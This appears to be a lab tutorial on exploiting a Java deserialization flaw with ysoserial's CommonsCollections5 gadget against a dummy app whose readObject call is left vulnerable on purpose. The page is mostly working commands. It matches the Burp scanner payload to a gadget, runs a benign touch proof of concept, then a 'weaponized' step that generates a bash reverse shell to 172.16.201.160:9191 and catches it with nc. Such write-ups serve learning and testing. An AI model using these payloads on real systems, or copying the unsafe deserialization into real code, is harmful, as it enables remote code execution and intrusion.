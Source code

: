 #### 3.1. Info

The following example will show how to exploit a deserialization vulnerability triggered via `readObject` method in a dummy test application.

Scenario:

- vulnerability was detected via Burp extension `https://github.com/federicodotta/Java-Deserialization-Scanner`
  - `Apache Commons Collections 3 Alternate payload 2 (Sleep)`

- exploit the vulnerability via `https://github.com/frohoff/ysoserial` 
  - this provides user-defined payloads (unlike benign `sleep` command)
  - `CommonsCollections5` payload is similar to Burp's


#### 3.2. Match the Burp scanner payload with the `yseoserial` gadget

```
# payload_str=`grep -r 'Commons Collections 3 Alternate payload 2 (Sleep)' ~/Java-Deserialization-Scanner | grep -oE '\"rO0AB.*\"' | tr -d '"' | tr -d '\n' | head -c 32`
# options=`java -jar ~/ysoserial.jar 2>&1 | grep -i 'commons-collections:3.1' | awk '{print $1}'`
# for i in $options; do java -jar ~/ysoserial.jar $i ls 2>/dev/null | base64 | grep -oE $payload_str && echo $i; done
rO0ABXNyAC5qYXZheC5tYW5hZ2VtZW50
CommonsCollections5
```
Note: this indicates that `CommonsCollections5` from `yseoserial` is the gadget identified to work with the target.


#### 3.3. Project setup (vulnerable application)

a) The following code `/tmp/java_serial/Main.java` simply reads a file that contains a serialized Java steam, attempts to re-build the original Java object:

```java
import java.io.*;

public class Main {
    public static void main(String[] args) throws IOException, ClassNotFoundException {
        if (args.length != 1) return;
        String filename = args[0];
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        Object whatever = ois.readObject(); // hereby the vulnerable code
    }
}
```

b) After building `ysoserial` from source, all JAR dependencies that contain the required gadgets can be found under the local `maven` repository:
```
# find ~/.m2 -regex ".*commons.*collections.*3.1.*.jar" -exec cp -- "{}" /tmp/java_serial/ \;
```

c) Project structure - `/tmp/java_serial`:
```
# tree
.
├── collections5.serial
├── commons-collections-3.1.jar
└── Main.java

0 directories, 3 files
```

d) Compiling the program:
```
# javac Main.java # compile as regular Java program
# javac -cp commons-collections-3.1.jar: Main.java # in case classes from JAR file are imported in the Java program
```


#### 3.4. Exploitation - part 1 (benign)

Note:
- it is enough to provide the gadget JAR as part of the Java Class Path when running the application (similar to WebLogic)
- after running the program, successful exploitation creates `/tmp/this_is_a_test` file

a) Generate the `ysoserial` payload for `CommonsCollections5`:
```
# java -jar ~/ysoserial.jar CommonsCollections5 'touch /tmp/this_is_a_test' > /tmp/java_serial/collections5.serial
```

b) Exploitation - PoC:
```
# [ -e /tmp/this_is_a_test ] && echo 'OK' # does not print out anything
# java -cp commons-collections-3.1.jar: Main collections5.serial
# [ -e /tmp/this_is_a_test ] && echo 'OK'
OK
```


#### 3.5. Exploitation - part 2 (weaponized)

Note: remember to patch `ysoserial` - `CommonsCollections5.java` before running complex commands as part of your payload.

a) Generate the `ysoserial` payload for `CommonsCollections5`:
```
# java -jar ~/ysoserial.jar CommonsCollections5 "/bin/bash -i >& /dev/tcp/172.16.201.160/9191 0>&1" > /tmp/java_serial/collections5.serial
```

b) Exploitation - PoC:
```
# java -cp commons-collections-3.1.jar: Main collections5.serial
# nc -nlvp 9191
listening on [any] 9191 ...
connect to [172.16.201.160] from (UNKNOWN) [172.16.201.160] 56546
...
```
